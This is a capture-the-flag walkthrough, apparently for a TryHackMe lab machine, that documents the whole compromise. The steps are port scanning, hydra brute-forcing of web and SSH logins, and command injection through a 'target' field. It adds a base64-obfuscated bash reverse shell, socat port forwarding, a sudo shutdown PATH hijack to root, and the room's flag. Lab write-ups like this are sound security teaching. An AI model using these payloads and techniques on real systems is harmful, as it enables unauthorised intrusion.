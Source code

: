 # Enumeration 
We got our machine ip.Let's enumerate for open ports using nmap
>nmap -Sv -A -T4 -v <ip>

So the result is:
	![[Pasted image 20210724191808.png]]

Cheching for http service , we finds that it requires authorization so probably we will find creds for it in other open services.
Now , after firing ```enum4linux``` on SMB service we get:
	![[Pasted image 20210724192510.png]]
So , possible users of the machine are ```fox``` and ```rascal```.
# Creds for http
We got user names, so let's try to bryteforce for password for http authorization creds.
>echo -e "fox\nrascal "> users.txt
>hydra -L users.txt -P /usr/share/wordlists/rockyou.txt \<ip> -t 64 http-get
	
It gives us succefull password:
	![[Pasted image 20210724193341.png]]
	
Don't cheat xD, lol You can't!
Every new ip has new creds xD!
SO bruteforce for your own ip.

Know let's login to the website:
![[Pasted image 20210724194411.png]]

Just the look of web page tells its some sort of remote code execution.
Using burpsuite and gibberish input we found that key word for the post request is "target"
First let's have a look at source page.
It provides us with two file filter.js and submit.js
Filter.js have this :
	```if(/^[A-Za-z0-9. ]*$/[_0x2911('0x5')](_0x31dff8[_0x2911('0x1')])==![]){ _0x31dff8[_0x2911('0x1')]='';} });```
Which i could not understand to its depth tbh but it gives some idea that our imput should start with "/"
and know with the help of this [page](https://github.com/payloadbox/command-injection-payload-list) and hit and trial(in burpsuite repeater)
It finally turns out that we have to use the follwing payload inside "target" keyword:
	```{"target" = "\";\<command>\n"}```
![[Pasted image 20210725124521.png]]

id , ls -la, and other common commands gave successfull response.
Let's fire up netcat listener using ```nc -lnvp 4242```
As we already know many characters are restricted so 
	using reverse shell payload did not work. So here is a little trick.
>echo "bash -i >& /dev/tcp/10.0.0.1/4242 0>&1" | base64

It gives us hex of the revshell.
Now ,in burpsuite (where we put our commands) use the follwing format with own hex:
>echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS80MjQyIDA+JjEK | base64 -d | bash

It immediately gives us the reverse shell of machine.

# User Escalation

Using typical privesc methods or linpeas does not tell anything.Next we looked for localport running on machine using `ss -tulwn`
	![[Pasted image 20210725130025.png]]
So it turns out that port 22 is running on localhost so no ssh port was visible while nmap scan.
We'll have to forward this port so that it is usable by remote machines.
First I tried [port forwarding using ssh](https://www.microfocus.com/documentation/reflection-desktop/16-2/rdesktop-guide/rsit_unix_local_forwarding.htm?view=print).but ssh command is not permitted to 'rascal'
There are other tools for port forwarding like [chisel](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)
	or [socat](https://www.cyberciti.biz/faq/linux-unix-tcp-port-forwarding/)
I used socat.
on attacker's machine
>wget https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true
	
>python3 -m http.server 8090
	
On victim's machine:
>cd tmp
	
>wget http://\<tun-ip>:8090/socat

>chmod +x socat

>./socat tcp-listen:9090,fork tcp:127.0.0.1:22 &

After this nmap scan will show a new open port 9090.
So we now have to try to login to the ssh connection running at 9090. But we don't have creds.
Well, we do what we do ,bruteforce.
possible users are fox or alice.
So.
>hydra -l fox -P /usr/share/wordlists/rockyou.txt ssh://10.10.104.71:9090/ -t 64 

by this, We get our creds for ssh.
# root escalation
	
```
fox@year-of-the-fox:~$ sudo -l
Matching Defaults entries for fox on year-of-the-fox:
    env_reset, mail_badpass
User fox may run the following commands on year-of-the-fox:
    (root) NOPASSWD: /usr/sbin/shutdown

```
Searching for it lead us to https://security.stackexchange.com/questions/246288/sudo-usr-sbin-halt-usr-sbin-reboot-usr-sbin-poweroff-how-to-leverag

But know the issue is what adjactly the name of the self made decptive file containing payload should be!
Well let's try to read the binary /usr/sbin/shutdown using strings. Oops, this command is not available on the machine. So downloading it (using python to host a http server and downloading using wget with ip as machine ip) and using `strings shutdown`shows `poweroff`	as a string.
it gives us the hint what should our file name be.
>cd /tmp 
	
>echo "/bin/bash" > poweroff 
	
>chmod 777 poweroff
	
>echo $PATH 
	
>export PATH=/tmp:$PATH

>sudo shutdown

	And we are root.
	
but........
	![[Pasted image 20210725133536.png]]
lol
searching here and there does not give us any usefull file.
But  its bit fishy that we found no files in rascal user directory whereas there were a few  in fox(although useless).
In rascal directory, using `ls -la` gives us the required file.
```T H M {ODM3NTdk MDljYmM4Z jdhZWFhY2 VjY2Fk} Here's the prize: YTAyNzQ3ODZlMmE2MjcwNzg2NjZkNjQ2Nzc5NzA0NjY2Njc2NjY4M2I2OTMyMzIzNTNhNjk2ODMw Mwo= Good luck!```